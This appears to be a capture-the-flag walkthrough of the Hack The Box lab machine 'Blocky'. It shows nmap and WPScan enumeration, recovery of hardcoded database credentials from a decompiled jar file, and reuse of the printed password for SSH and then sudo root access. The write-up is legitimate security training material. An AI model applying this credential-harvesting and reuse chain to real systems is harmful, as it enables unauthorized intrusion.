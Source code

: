 # Walkthrough: Blocky HTB Machine

![Blocky_pwd](Blocky.png)

**Target IP Address**: `10.10.10.37`  
**Difficulty**: Easy  
**Tools Used**: Nmap, WPScan, JD-GUI, SSH

## Step 1: Initial Enumeration

To start, I performed an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV 10.10.10.37
```

### Nmap Results:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 14:39 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.05% done; ETC: 14:40 (0:00:38 remaining)
Nmap scan report for 10.10.10.37
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

The HTTP service redirected to `http://blocky.htb`, suggesting a hostname requirement.

### Update Hosts File

```bash
sudo nano /etc/hosts
```

Add the following entry:
```
10.10.10.37 blocky.htb
```

## Step 2: Web Enumeration

With the website active, I used WPScan to further enumerate the WordPress site and discovered the user .

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

## Step 3: Decompiling BlockyCore.jar

A downloadable `.jar` file was available on the website. I used `JD-GUI` to analyze the `BlockyCore.jar` file for sensitive information.

The code snippet revealed the following:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

These credentials hinted at possible SSH access.

## Step 4: Gaining Access via SSH

Using the discovered credentials, I logged into SSH with the username `notch`:

```bash
ssh notch@10.10.10.37
```

**Password**: `8YsqfCTnvxAUeduzjNSXe22`

This granted me user-level access.

## Step 5: Privilege Escalation

With user access, I executed `sudo -i` to escalate privileges:

```bash
sudo -i
```
After being promoted to root, we can get a root flag.
